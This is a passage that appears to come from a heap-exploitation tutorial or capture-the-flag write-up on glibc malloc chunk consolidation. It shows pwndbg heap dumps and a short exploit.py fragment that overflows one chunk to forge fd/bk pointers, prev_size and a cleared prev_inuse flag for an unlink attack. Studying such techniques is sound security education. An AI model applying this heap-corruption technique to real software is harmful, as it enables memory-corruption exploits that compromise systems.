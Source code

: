```
0x5555557570b0	0x0000000000000000	0x0000000000000000	................
0x5555557570c0	0x0000000000000000	0x0000000000000000	................
0x5555557570d0	0x0000000000000000	0x0000000000000000	................
0x5555557570e0	0x0000000000000000	0x0000000000000000	................
0x5555557570f0	0x0000000000000000	0x0000000000000000	................
0x555555757100	0x0000000000000000	0x0000000000000000	................
0x555555757110	0x0000000000000000	0x0000000000000000	................
0x555555757120	0x0000000000000000	0x0000000000020ee1	................	 <-- Top chunk

```
Now if we tried to free chunk B now, malloc would check its prev_inuse flag, and attempt to consolidate chunk B with chunk A.
To find the start of chunk A needs to use chunk B's prev_size field. 

```
# exploit.py
chunk_A = malloc(0x88)
chunk_B = malloc(0x88)

fd = 0xdeadbeef
bk = 0xdeadbeef
prev_size = 0x90
fake_size = 0x90

edit( chunk_a, p64(fd)+p64(bk)+p8(0)*0x70 + p64(prev_size) + p64(fake_size) )


pwndbg> vis

0x555555757000	0x0000000000000000	0x0000000000000091	................
0x555555757010	0x00000000deadbeef	0x00000000deadbeef	................
0x555555757020	0x0000000000000000	0x0000000000000000	................
0x555555757030	0x0000000000000000	0x0000000000000000	................
0x555555757040	0x0000000000000000	0x0000000000000000	................
0x555555757050	0x0000000000000000	0x0000000000000000	................
0x555555757060	0x0000000000000000	0x0000000000000000	................
0x555555757070	0x0000000000000000	0x0000000000000000	................
0x555555757080	0x0000000000000000	0x0000000000000000	................
0x555555757090	0x0000000000000090	0x0000000000000090	................
0x5555557570a0	0x0000000000000000	0x0000000000000000	................
0x5555557570b0	0x0000000000000000	0x0000000000000000	................
0x5555557570c0	0x0000000000000000	0x0000000000000000	................
0x5555557570d0	0x0000000000000000	0x0000000000000000	................
0x5555557570e0	0x0000000000000000	0x0000000000000000	................
0x5555557570f0	0x0000000000000000	0x0000000000000000	................
0x555555757100	0x0000000000000000	0x0000000000000000	................
0x555555757110	0x0000000000000000	0x0000000000000000	................
0x555555757120	0x0000000000000000	0x0000000000020ee1	................	 <-- Top chunk


```
